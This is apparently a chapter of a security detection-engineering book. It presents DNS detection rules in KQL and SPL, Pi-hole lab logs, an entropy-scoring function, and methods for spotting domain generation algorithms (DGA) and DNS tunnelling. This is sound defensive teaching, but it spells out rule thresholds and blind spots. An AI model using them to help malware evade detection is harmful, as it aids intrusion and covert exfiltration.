



# Part 15 — DNS Detection Engineering

## Why this part exists

Every stage of an intrusion that needs a name touches DNS before it touches anything else — command-and-control beaconing resolves a domain before it opens a socket, a phishing kit resolves a lookalike domain before it serves a page, and a data-exfiltration channel that can't get a socket out through an egress firewall will frequently still get a query out through port 53. Part 4 already surveyed DNS as a telemetry source: what a query log actually captures, where a resolver sits in the collection path, and how that compares to proxy, firewall, and NDR telemetry on visibility and retention. This part is the analytic layer built on top of that survey — the actual scoring logic, thresholds, and detection rules that turn a DNS query log into something that catches domain generation algorithms (DGA), covert channels, and reconnaissance, not just something you retain for 90 days and hope to search later.

Part 14 (Network Detection Engineering) covers the rest of the network stack — port scans, beaconing over non-DNS protocols, TLS signal analysis, SMB/RDP/SSH abuse — and explicitly excludes DNS tunnelling and domain-rarity scoring, cross-referenced back to this part. That boundary is deliberate and stated in `BOOK-INDEX.md`: this part owns all DNS-tunnelling detection logic exclusively, so a reader never has to reconcile two different thresholds for the same behavior written by two different authors.

## 1. Scope: what this part owns, and what it doesn't

**[CONCEPT]** This part covers entropy scoring, rare and first-seen domain detection, NXDOMAIN pattern analysis, DGA detection, TXT-record abuse, subdomain-frequency analysis, DNS tunnelling, and resolver context — the vantage point a given DNS log actually gives you, and what it structurally can't see from that vantage point. It assumes Part 4's telemetry-level treatment of DNS log sources (recursive resolver logs, authoritative logs, passive DNS, endpoint-side DNS telemetry) rather than re-explaining what those sources are.

This part does not cover:

- General network beaconing and C2 detection over non-DNS protocols — that's Part 14.
- Email authentication records (SPF, DKIM, DMARC) as an anti-spoofing control — those are DNS TXT/CNAME records in mechanism, but Part 17 owns their detection-relevant treatment because the failure modes that matter are email-specific, not DNS-specific.
- Domain and certificate reputation feeds as a standalone enrichment source — mentioned here only as an input signal; the enrichment-pipeline mechanics belong to the telemetry/pipeline chapters.
- Cloud provider-managed DNS (Route 53 query logging, Azure DNS analytics) at the platform-configuration level — Part 19 owns cloud-infrastructure-specific logging setup; this part's scoring logic applies to whatever DNS log a given platform produces.

> **Detection Autopsy — "long DNS label = tunnel"**
>
> **The rule:** Alert on any DNS query where the first label (the leftmost subdomain component) exceeds a fixed character count — commonly somewhere around 40 to 50 characters, chosen because it's well past what a normal hostname needs.
>
> **Why it shipped:** DNS tunnelling tools genuinely do encode data into subdomain labels, and a long label is the most visually obvious artifact in a raw query log — an analyst can eyeball a sample of queries, spot the one that looks like `k3jf82nqz71m9xpq4wrtlb6vhs2c.tunnel.example.com`, and write a one-line length filter that catches it. It requires no baseline, no historical data, and no entropy math — just `len(query) > N`, which is cheap to compute and easy to justify in a design review as "catching the obvious case."
>
> **How it failed:** Long, high-entropy-looking labels show up constantly with zero attacker involvement. Content-delivery networks and SaaS platforms route multi-tenant traffic through account-ID-prefixed or content-hash-prefixed hostnames for cache-busting — a CloudFront distribution hostname or an S3 virtual-hosted-style bucket name alone can clear 40 characters with no encoded payload at all. Mobile analytics SDKs embed a device or session identifier into a subdomain for telemetry endpoints. Organizations that automate ACME DNS-01 certificate renewal through a third-party DNS provider commonly do it via a CNAME at `_acme-challenge.<domain>` pointing to a long, provider-generated random hostname on the delegated provider's own zone (the standard `acme-dns`-style delegation pattern) — the fixed `_acme-challenge` label itself isn't long, but the CNAME target it resolves through is, and it shows up in the same query chain. Every one of these trips a bare length filter, and none of them is a tunnel — the rule either drowns in exclusions written one legitimate vendor at a time, or gets tuned so far up that it stops catching anything with a shorter, chunked encoding scheme.
>
> **The fix:** Deferred. §5 through §9 build the actual replacement — entropy as one signal among several, subdomain fan-out and query-type skew as the signals that actually discriminate a tunnel from a long legitimate token, and a composite score rather than a single threshold. The full teardown of this exact rule, cross-referenced against the five other naive rules seeded elsewhere in the book, ships in Part 40.

## 2. DNS telemetry recap and resolver context

### 2.1 Recursive vs. authoritative visibility

**[CONCEPT]** A DNS query crosses at least two distinct vantage points before an answer comes back, and each one sees a different slice of the truth. The **recursive resolver** — the corporate resolver, a home network's Pi-hole, or a public resolver like `1.1.1.1` — sees every query a client actually issues, including cache hits it never forwards anywhere, but it only sees the client that queried it directly, not any client further downstream if resolution is chained. The **authoritative name server** for a domain sees only the queries that actually reach it (a cache miss at every resolver in the chain), stripped of any information about which original client asked, because the query it receives came from the last resolver in the chain, not the originating host. A detection built on recursive-resolver logs and a detection built on authoritative-server logs are answering different questions — "what did my users ask for" versus "who is asking about my domain" — and this part's detections assume the former unless stated otherwise, because that's the vantage point available to a defender monitoring their own environment rather than running their own attacker-facing infrastructure.

**[ENGINEERING]** Endpoint-side DNS telemetry is a third vantage point, and it fills a specific gap the resolver log can't: which process on which host issued the query. Sysmon Event ID 22 (DNS Query) captures the queried name, the requesting process image, and the `ProcessGuid` that ties the query back to the same process-creation chain everything else in Part 9 and Part 11 correlates against. A resolver log alone tells you `192.168.1.169` asked for a domain; Sysmon Event ID 22 tells you it was `powershell.exe` that asked, which is the difference between an anomaly and an incident.

> **Blind Spot**
> None of the detections in this part see a query that never reaches the monitored resolver at all. DNS-over-HTTPS (DoH) and DNS-over-TLS (DoT) let a client — or malware bundling its own DoH client — resolve names directly against an external resolver over an encrypted HTTPS/TLS session, bypassing the organization's recursive resolver entirely. From the network's perspective that traffic looks like ordinary HTTPS to a cloud IP, not DNS, because it structurally isn't DNS on the wire from the local network's point of view. §10 covers what to do about this; nothing in §3–§9 is reachable if the traffic never hits the log source they query.

### 2.2 Reading a resolver's own query log

**[ENGINEERING]** A resolver's native query log is often the thinnest telemetry source available for this analytic layer, and it's worth seeing what a real one actually contains before building detection logic against an idealized schema. The excerpt below is a genuine Pi-hole/dnsmasq log from a home-lab resolver, showing a legitimate CNAME resolution chain for a Microsoft update endpoint and a gravity-list block of a telemetry domain.

```text
Sep 15 08:32:46 dnsmasq[2221]: forwarded software-static.download.prss.microsoft.com to 1.1.1.1
Sep 15 08:32:46 dnsmasq[2221]: reply software-static.download.prss.microsoft.com is <CNAME>
Sep 15 08:32:46 dnsmasq[2221]: reply sundry-fg-geo-nocn.trafficmanager.net is <CNAME>
Sep 15 08:32:46 dnsmasq[2221]: reply fg.microsoft.map.fastly.net is 199.232.210.172
Sep 15 08:32:46 dnsmasq[2221]: reply fg.microsoft.map.fastly.net is 199.232.214.172
Sep 15 08:32:46 dnsmasq[2221]: reply download.prss.microsoft.com.akamaized.net is <CNAME>
Sep 15 08:32:46 dnsmasq[2221]: reply a308.dscd.akamai.net is 2600:1413:5000:3c::1735:76e4
...
Sep 15 08:32:49 dnsmasq[2221]: query[AAAA] mobile.events.data.microsoft.com from 192.168.1.169
Sep 15 08:32:49 dnsmasq[2221]: gravity blocked mobile.events.data.microsoft.com is ::
Sep 15 08:32:49 dnsmasq[2221]: query[A] mobile.events.data.microsoft.com from 192.168.1.169
Sep 15 08:32:49 dnsmasq[2221]: gravity blocked mobile.events.data.microsoft.com is 0.0.0.0
```

**Figure 15.1 — Legitimate CNAME resolution chain and a blocklist-matched telemetry domain (FIG-15-01).** *REAL LAB EXAMPLE.* Captured from a Pi-hole/dnsmasq resolver (CT100 in the author's home-lab Proxmox environment), 2026-09-15, via a bounded 50-line tail of `/var/log/pihole/pihole.log`. The first block shows one client's software-update lookup resolving through a traffic-manager CNAME to a CDN edge node across three providers in six hops — every one of those hops is a distinct name a naive rare-domain rule would flag as "never seen before" on a fresh install. The second block shows `gravity blocked` — Pi-hole's own blocklist match, not a detection this part's logic produced.

Three things in that excerpt matter for everything that follows. First, `forwarded` and `cached` reply lines tell you whether the resolver had to ask upstream or already had the answer — a signal for query frequency and TTL behavior, not by itself a maliciousness signal. Second, one client's routine software update touched six distinct hostnames across three different apex domains inside 1 second; a subdomain-fan-out rule with no apex-domain context would score that update as more suspicious than it is. Third, `gravity blocked` is Pi-hole's own allowlist/blocklist enforcement, evaluated before any analytic in this part runs — it's enrichment or suppression happening at the resolver, not a detection this chapter's logic is responsible for validating.

> **Engineering Reality**
> The dnsmasq plaintext query log has no query-ID field joining a `query` line to its matching `reply` line — the join is purely positional and timing-based (same client, adjacent lines, same name). Under concurrent query bursts from multiple clients, interleaved log lines make that join unreliable without buffering and sequencing logic in the parser. It also carries no TTL and no full resource-record data beyond the first few answers shown — enough for a resolver's own operational purposes, not enough to reconstruct a complete DNS transaction for forensic replay. If your detection logic assumes a structured, query-ID-joined DNS log, verify that assumption against the actual log format in use; Pi-hole's own FTL database (queried via its API, not this plaintext log) carries considerably more structure, and enterprise resolvers vary widely on this point.

## 3. Rare and first-seen domains

**[CONCEPT]** "This domain has never been queried in this environment before" is one of the weakest individually usable signals in this book, and one of the highest-volume ones — every legitimate new website, SaaS integration, and third-party script a user's browser loads for the first time produces a first-seen domain. Per `TERMINOLOGY.md`, this is a **Signal**, not a verdict: it earns a place in an entity's Risk Score (Part 33 owns the general mechanics of accumulating weak signals into a threshold-crossing alert) or as **Enrichment** attached to an otherwise-triggered alert, not a standalone rule fired on its own.

### 3.1 Building a first-seen baseline

**[DETECTION ENGINEER]** A first-seen baseline is a rolling **Baseline** (per `TERMINOLOGY.md` §6) of every apex domain the environment has queried over a trailing window — 30 to 90 days is typical — refreshed on a schedule, against which a new query is scored "seen before" or "never seen before" as a boolean. The baseline itself needs to exclude gravity-blocked or NXDOMAIN-only domains from counting as "known good," since a domain the environment has only ever failed to resolve isn't evidence of anything benign about it.

<a id="det-15-01"></a>**DET-15-01 — First-seen apex domain outside the maintained baseline, joined to process context.** The following targets Microsoft Sentinel and assumes DNS telemetry is ingested into the `DnsEvents` table (Azure Monitor Agent DNS analytics solution). It has not been validated against a live Sentinel workspace in this book's lab — the lab's DNS evidence comes from a Pi-hole resolver, not an Azure-integrated DNS analytics pipeline — so treat the exact table and field names as illustrative and confirm against your own workspace's schema before deploying.

The query below implements only the baseline-membership check. `DnsEvents` is resolver-vantage telemetry (§2.1) — it carries no process identity, so the "joined to process context" this detection is named for is a *second*, separate join against endpoint-side DNS telemetry (Sysmon Event ID 22 events ingested into the same workspace, joined on `Computer`/`ClientIP` and the queried `Name` within a narrow time window), not something `DnsEvents` alone produces. Treat the query below as the raw first-seen signal only; without that second join to a process-bearing source, the enrichment this detection's name promises hasn't actually been applied, and the alert tells you a domain was new, not what asked for it. On a typical enterprise fleet with unrestricted web browsing, expect first-seen apex domains in the hundreds to low thousands per day before any process-context or risk-score join — validate the actual volume against your own baseline before assuming this is small enough to triage directly.

CONCEPTUAL SAMPLE — illustrative Sentinel KQL, schema fields treated as representative rather than confirmed against a live workspace.

```kql
// Materialize a 30-day rolling "known apex domains" baseline, then flag any apex
// queried today that isn't in it. Excludes NXDOMAIN-only history from counting as known.
let KnownApex = DnsEvents
    | where TimeGenerated between (ago(30d) .. ago(1d))
    | where ResponseCodeName != "NXDOMAIN"
    | extend Apex = tostring(split(Name, ".")[-2]) // illustrative apex extraction, not PSL-aware
    | summarize by Apex;
DnsEvents
| where TimeGenerated > ago(1d)
| extend Apex = tostring(split(Name, ".")[-2])
| where Apex !in (KnownApex)
| project TimeGenerated, ClientIP, Name, Apex, QueryType
```

**MITRE:** T1071.004 (Application Layer Protocol: DNS).

> **False Positive Trap**
> A naive `split(Name, ".")[-2]` apex extraction breaks on multi-part public suffixes — it treats `example.co.uk` as apex `co`, not `example.co.uk`, which both undercounts genuinely rare domains and floods the "first seen" list with every UK-registered domain the environment touches for the first time in a day. Use a maintained public-suffix-list-aware apex extraction (Part 5's parser-normalization guidance covers this class of problem generally) rather than a fixed dot-count assumption, or this signal is noisy enough to be worse than no signal at all. A related but distinct failure: if `Name` is null or malformed on a given event, `split()` on an empty string returns an empty apex, and an empty string never matches anything already in `KnownApex` — those events silently inflate the "first seen" count as false novelty rather than erroring out. Filter out null/empty `Name` before this query runs, not after.

> **Blind Spot**
> Apex-level baselining only works if the apex domain is itself a meaningful unit of trust, and it isn't for shared multi-tenant hosting platforms: `ngrok.io`, `trycloudflare.com`, `azurewebsites.net`, `firebaseapp.com`, and similar apex domains let anyone stand up a new subdomain in minutes, but the apex itself was almost certainly queried by the environment — legitimately — long before an attacker showed up. Once `KnownApex` already contains one of these platforms, every malicious subdomain hosted under it is permanently invisible to this detection, regardless of how new that specific subdomain is. Closing this gap means maintaining a separate list of known shared-hosting apex domains and scoring queries against those at full-hostname granularity instead of apex granularity — a different join key, not a threshold tweak to the query above.

> **Hunter's Note**
> Don't treat "first seen" as a single boolean forever. Pull the *distribution* of first-seen-domain volume per host over the same window you'd use for a baseline, and look for the host that's a clear outlier — not the host with the most first-seen domains (that's usually a developer or a browser with aggressive third-party script loading), but the host whose first-seen-domain rate just changed sharply from its own 30-day norm. A step change in one host's own baseline beats an absolute threshold applied uniformly across a fleet with wildly different normal browsing behavior.

> **Detection Test**
> **Setup:** A test or lab Sentinel workspace with `DnsEvents` populated from at least 30 days of representative traffic, so `KnownApex` reflects a real rolling baseline rather than an empty set.
> **Action:** From a test host, resolve an apex domain you control that has not appeared anywhere in the prior 30 days of ingested traffic. As a negative control, in the same run, also resolve an apex that has been queried routinely throughout the baseline window.
> **Expected result:** The new apex appears in the `Apex !in (KnownApex)` output; the routine apex does not. If the routine apex appears too, the baseline materialization — not the detection logic — is broken.

> **Engineering Reality**
> This detection fails silently rather than loudly. If the scheduled job that materializes `KnownApex` stops running — a permissions change, a broken schedule, or a query timeout as the 30-day lookback grows — the query keeps executing against the *last successfully computed* baseline indefinitely, keeps returning results, and gives no error. A stale baseline drifts in both directions: apex domains that should have aged out of "known" stay known, and the detection quietly stops reflecting current traffic. Alert volume alone won't reveal this; monitor the baseline job's own last-successful-run timestamp independently of this rule's output.

## 4. NXDOMAIN patterns

**[CONCEPT]** An NXDOMAIN response means the resolver got an authoritative "this name doesn't exist," and it means something structurally different depending on why the client asked. A DGA fallback cycling through dozens of algorithmically generated candidate domains until one resolves produces mostly NXDOMAIN by design — that's the intended behavior of the algorithm, not a malfunction. A misconfigured DNS suffix search list produces NXDOMAIN for entirely mundane reasons and can look, in raw volume terms, identical.

### 4.1 The suffix-search trap

**[ANALYST]** The excerpt below is real evidence of exactly that ambiguity, captured from the same Pi-hole resolver as Figure 15.1.

```text
Sep 15 08:32:47 dnsmasq[2221]: query[A] mykulprint.atrapa.deloitte.com from 192.168.1.169
Sep 15 08:32:47 dnsmasq[2221]: cached mykulprint.atrapa.deloitte.com is NXDOMAIN
Sep 15 08:32:47 dnsmasq[2221]: query[AAAA] mykulprint.atrapa.deloitte.com from 192.168.1.169
Sep 15 08:32:47 dnsmasq[2221]: cached mykulprint.atrapa.deloitte.com is NXDOMAIN
Sep 15 08:32:47 dnsmasq[2221]: query[AAAA] mykulprint.lan from 192.168.1.169
Sep 15 08:32:47 dnsmasq[2221]: config mykulprint.lan is NXDOMAIN
Sep 15 08:32:47 dnsmasq[2221]: query[A] mykulprint.lan from 192.168.1.169
Sep 15 08:32:47 dnsmasq[2221]: config mykulprint.lan is NXDOMAIN
Sep 15 08:32:47 dnsmasq[2221]: query[A] mykulprint.deloitte.com from 192.168.1.169
Sep 15 08:32:47 dnsmasq[2221]: cached mykulprint.deloitte.com is NXDOMAIN
Sep 15 08:32:47 dnsmasq[2221]: query[AAAA] mykulprint.deloitte.com from 192.168.1.169
Sep 15 08:32:47 dnsmasq[2221]: cached mykulprint.deloitte.com is NXDOMAIN
```

**Figure 15.2 — One hostname, three suffix variants, six NXDOMAIN responses in under a second (FIG-15-02).** *REAL LAB EXAMPLE.* Captured from the same CT100 Pi-hole resolver, 2026-09-15. A single client (`192.168.1.169`) is resolving a local device named `mykulprint` and its resolver is trying that name raw (`mykulprint.lan`), against a search-list-appended domain (`mykulprint.deloitte.com`), and against a second appended suffix (`mykulprint.atrapa.deloitte.com`) — a residual DNS search-suffix configuration on the client, unrelated to any real `deloitte.com` domain the household has any connection to. This repeats identically 2 seconds later in the full capture, meaning it's routine periodic behavior, not a one-off.

This is the concrete mechanism behind the False Positive Trap below: an OS-level DNS suffix search list will retry the same short hostname against every configured suffix, in order, every time it resolves that hostname, for the life of that configuration — and it will do this indefinitely, not just once at boot.

> **False Positive Trap**
> A raw "NXDOMAIN count per host over N minutes" threshold cannot distinguish this suffix-search pattern from a DGA cycling through candidate domains, because both produce a burst of short-interval NXDOMAIN responses from one client. The discriminator is the domain *set*, not the count: suffix-search NXDOMAIN churn queries a small, static, repeating set of names (here, three, forever), while DGA-fallback NXDOMAIN churn queries a large, constantly-changing set of names that essentially never repeats. Score on distinct-domain cardinality within the NXDOMAIN set, not raw NXDOMAIN volume, or every misconfigured printer and every laptop that roams between a home and corporate search-suffix list becomes a standing false positive.

### 4.2 NXDOMAIN churn as a DGA fallback signal

**[DETECTION ENGINEER]** With the cardinality distinction from §4.1 built in, the actual detection targets a source issuing a high count of *distinct* apex domains that resolve NXDOMAIN in a short window — the shape a DGA fallback loop produces when its candidate domains haven't been registered yet or have already been sinkholed.

<a id="det-15-02"></a>**DET-15-02 — High-cardinality NXDOMAIN churn from a single source.** The following targets Splunk and assumes a DNS log source normalized into fields `query`, `query_apex`, `rcode`, and `src_ip` — adjust field names to your own parser's output per Part 5.

CONCEPTUAL SAMPLE — illustrative SPL, field names assume a normalized DNS log per Part 5/Part 6.

```spl
index=dns rcode=NXDOMAIN
| bin _time span=10m
| stats dc(query_apex) as distinct_nxdomain_apexes,
        values(query_apex) as sample_apexes
      by src_ip, _time
| where distinct_nxdomain_apexes >= 15
| sort - distinct_nxdomain_apexes
```

The `>= 15` cutoff is a starting point, not a validated figure — it has not been benchmarked against this book's own lab traffic (whose NXDOMAIN churn, per §4.1, comes from suffix-search retries against a small, static set, not genuine DGA-style cardinality); run it against your own environment's NXDOMAIN baseline before trusting it unmodified. The aggregation also only counts events where `query_apex` is populated: a parser gap that leaves `query_apex` null for a subset of NXDOMAIN responses silently undercounts `distinct_nxdomain_apexes` for that source rather than raising an error, which is the same failure mode as DET-15-01's apex-extraction gap above — confirm the field is populated for NXDOMAIN responses specifically, since some parsers only extract query fields on a successful answer.

**MITRE:** T1568.002 (Dynamic Resolution: Domain Generation Algorithms), T1071.004 (Application Layer Protocol: DNS).

> **Engineering Reality**
> `bin _time span=10m` creates fixed, clock-aligned windows, not a rolling lookback — a source issuing 14 distinct NXDOMAIN apexes in the last 3 minutes of one window and 14 more in the first 3 minutes of the next produces 28 in 6 real minutes, but each bin only ever sees 14 and never crosses the `>= 15` cutoff on its own. The same fixed-bin gap applies to DET-15-03's and DET-15-05's windowed aggregations below. A scheduled search that fires the instant a bin closes is also exposed to ordinary ingestion lag: events that land at the indexer after the search already ran for that window are undercounted permanently, since the search never re-evaluates a closed window later. A rolling/sliding window, or a deliberate lookback buffer of a few minutes past `_time` before evaluating the most recently closed bin, closes both gaps; a single fixed bin taken at face value does not.

> **Blind Spot**
> This detection is silent against a DGA that pre-generates its candidate list and pre-registers a handful of them ahead of time, cycling through a small pool of already-live domains rather than a large pool of nonexistent ones. In that design almost nothing resolves NXDOMAIN, because the attacker did the registration work up front specifically to defeat NXDOMAIN-volume-based detection. Pair this with the rare/first-seen logic in §3 and the entropy scoring in §5 — a small pool of live, recently-registered, high-entropy domains is exactly the pattern those two signals are built to catch instead.

> **Detection Test**
> **Setup:** An isolated lab host pointed at a resolver whose query log feeds this detection.
> **Action:** From the test host, resolve 15 or more distinct, non-existent subdomains under different apexes within one 10-minute window (a short script generating random labels under domains you control, or a DGA-domain-list generator run without registering any of the output, is sufficient — no live C2 infrastructure required). As a control, repeat the test resolving the *same* three or four non-existent names on a loop, reproducing §4.1's suffix-search shape.
> **Expected result:** `distinct_nxdomain_apexes` for the test host's `src_ip` reaches or exceeds 15 in the varied-name run; the repeated-name control stays at 3–4 regardless of query count, confirming the cardinality discriminator — not raw volume — is what's firing.

> **Engineering Reality**
> This rule depends entirely on the upstream parser correctly and consistently populating `rcode=NXDOMAIN`. If a resolver upgrade or parser change silently starts logging the same response under a different literal (`3`, `NameError`, a vendor-specific string), `index=dns rcode=NXDOMAIN` returns nothing, this detection goes quiet, and nothing in the search itself signals that a telemetry regression — not a quiet environment — is the cause. Track the raw daily volume of `rcode=NXDOMAIN` events ingested as a separate health metric from this detection's own alert count, so a mapping break shows up as a telemetry drop rather than getting read as good news. Honestly, expect most real alerts from this rule in an early deployment to trace back to misconfigured or roaming DNS-suffix devices (§4.1) rather than genuine DGA activity, until per-cardinality tuning and a suffix-search exclusion list catch up.

## 5. Domain entropy scoring

**[CONCEPT]** Shannon entropy measures how unpredictable the character sequence in a domain label is, in bits per character. A label built from a small set of repeated or highly structured characters (`mail`, `www`, `app03`) has low entropy; a label that looks like the output of a random-number generator or a base32/base64 encoder has entropy close to the maximum for its character set. DGA-generated domains and data-bearing tunnel labels both tend toward the high end of that range, for the same underlying reason: both are encoding something closer to random data than to a word.

### 5.1 Computing entropy over a label

**[DETECTION ENGINEER]** The formula is `H = -Σ p(c) · log2(p(c))` summed over each distinct character `c` in the label, where `p(c)` is that character's frequency within the label. A 10-character label using only the letter `a` has an entropy of 0 bits/character — completely predictable. A 10-character label drawn near-uniformly from a 32-character alphabet approaches `log2(32) = 5` bits/character, the theoretical maximum for that alphabet size. English-like dictionary words and real hostnames typically land well below that ceiling — roughly in the 2.5–3.5 bits/character range in practice, because natural language repeats common letters and digraphs — while base32/base64-style encoded data typically lands close to its alphabet's ceiling. Note these are the well-known general properties of entropy applied to text, not a specific tuned threshold from an empirical dataset; validate the exact cutoff against your own environment's legitimate-domain traffic before deploying it as a hard threshold.

CONCEPTUAL SAMPLE — illustrative entropy calculation, teaching-only implementation, not a deployable detection rule by itself.

```python
import math
from collections import Counter

def label_entropy(label: str) -> float:
    counts = Counter(label)
    length = len(label)
    return -sum((n / length) * math.log2(n / length) for n in counts.values())

# label_entropy("aaaaaaaaaa")      -> 0.0   bits/char (fully predictable)
# label_entropy("mailserver")      -> ~3.0  bits/char (natural-language-like)
# label_entropy("k3jf82nqz71m9xp") -> ~3.9  bits/char (near-uniform, encoded-data-like)
```

> **Engineering Reality**
> Computing entropy per query inline, inside a SIEM's query language, at ingest volume, is expensive and awkward in most SIEM query languages — this is normally done as a pipeline enrichment step (Part 6's normalization stage or a dedicated enrichment job) that writes a precomputed `label_entropy` field onto the event before it reaches the detection layer, not as a runtime calculation inside every scheduled search. If your entropy-based detections are inexplicably slow or timing out, check whether entropy is being computed per-query at search time instead of at ingest time first.

## 6. DGA detection

**[CONCEPT]** Domain generation algorithms produce a large, frequently-rotating pool of candidate domains — a pseudo-random string, a fixed algorithm, and a seed (often date-based) that both the malware and the attacker's infrastructure can compute independently, so the attacker only needs to register a handful of the pool's domains ahead of the malware actually querying them. High per-label entropy is one component of a real DGA detection; on its own it's a coin flip against several classes of legitimate high-entropy traffic already covered in §5's False Positive discussion. The signal that actually discriminates a DGA is *entropy combined with per-source apex-domain diversity in a bounded window* — a real DGA-infected host doesn't query one high-entropy domain, it queries many, in a pattern no ordinary browsing session produces.

**[DETECTION ENGINEER]**

<a id="det-15-03"></a>**DET-15-03 — High-entropy apex-domain diversity per source.** The following targets Elastic KQL (the Kibana search-bar query language, not Elastic EQL) and assumes an upstream enrichment step has already written a `dns.question.entropy` field per the Engineering Reality note in §5.1.

CONCEPTUAL SAMPLE — illustrative Elastic KQL filter combined with an aggregation described in prose, since the KQL search bar alone doesn't express the aggregation step.

```kql
dns.question.entropy >= 3.6 and dns.question.registered_domain : *
```

That filter narrows to high-entropy queries; the actual detection then aggregates the filtered result set by `source.ip` over a bounded window (15 to 30 minutes is a reasonable starting point) and alerts where the count of *distinct* `dns.question.registered_domain` values crosses a threshold — 20 or more distinct high-entropy apex domains from one source inside that window is a reasonable starting cutoff, matching the volume used in the Detection Test below, and should be tuned against your own environment's baseline before being trusted as-is. This aggregation step is expressed as a Kibana Lens/TSVB aggregation or an Elasticsearch aggregation query layered on top of the filter above, not as a single KQL line. That window is a fixed bin subject to the same boundary-splitting and late-arrival gaps described in the Engineering Reality note under DET-15-02. And as with DET-15-01's null `Name` gap and DET-15-02's null `query_apex` gap: if the upstream enrichment job that writes `dns.question.entropy` (per §5.1's Engineering Reality note) stalls or falls behind, the affected events' entropy field reads null, the `>= 3.6` filter silently excludes them, and this detection goes quiet exactly when the enrichment pipeline — not the detection logic — is what's actually broken. Monitor that job's own health independently of this rule's alert volume.

**MITRE:** T1568.002 (Dynamic Resolution: Domain Generation Algorithms).

> **Detection Test**
> **Setup:** An isolated lab host with no internet-facing production impact, a DNS log source pointed at that host's resolver.
> **Action:** Run a public DGA-domain-list generator or a known-safe DGA simulation tool (several open-source DGA classifiers ship a matching domain-list generator for testing purposes) to resolve 20-plus algorithmically-generated candidate domains from the test host within a 5-minute window.
> **Expected result:** The per-source distinct-apex-domain count for the test host's IP crosses the detection's threshold within the same window, and a sample of the queried domains shows entropy values at or above the 3.6 bits/character cutoff used in the filter above.

> **What Would Change My Mind**
> This detection assumes legitimate single-host traffic rarely touches 20-plus distinct high-entropy apex domains inside one short window. If a production baseline audit showed that pattern occurring routinely from, say, ad-tech-heavy browsing sessions, real-time bidding SDKs, or aggressive third-party-script-loading pages, the threshold would need to move from a fixed count to a per-host-baselined deviation instead, and this detection's confidence would drop from a standalone alert to an enrichment signal feeding Part 33's risk score rather than firing on its own. Treat the honest false-positive rate as unknown until that audit runs — the 20-domain/15-minute cutoff is a starting assumption, not a validated figure from this book's own lab, whose traffic never exercised ad-tech-scale browsing.

> **Blind Spot**
> This detection is trivially bypassed in two directions the composite score in §9.2 exists partly to close. First, a DGA using dictionary-word concatenation (stitching together real or near-real word fragments instead of random characters) produces domains with entropy well under 3.6 bits/character, so those queries never enter the filtered set at all — the `dns.question.entropy >= 3.6` filter is a hard gate, not a weighted input. Second, a campaign that spreads its candidate-domain queries across many source IPs — a botnet, or a single host rotating source addresses — so that no individual `source.ip` crosses 20 distinct apexes in the window defeats the per-source aggregation even though the aggregate campaign volume is large. Neither gap is unique to this rule; it's the same per-source, per-window blind spot that HUNT-15-01 exists to chase from the tunnelling side, and a DGA family known to use dictionary-based generation should not be assumed caught here.

## 7. TXT-record abuse

**[CONCEPT]** TXT records exist to carry arbitrary text data attached to a domain name, and legitimate uses of that flexibility are already loud and high-entropy: SPF records, DKIM public keys, and domain-ownership verification tokens for cloud services are all base64-or-similar blobs sitting in a TXT record, indistinguishable at the byte level from an attacker's encoded command or exfiltrated data chunk. That overlap is why TXT-record abuse detection can't rely on "this TXT record looks encoded" as its primary signal — it has to rely on *who is asking, how often, and against which domain*.

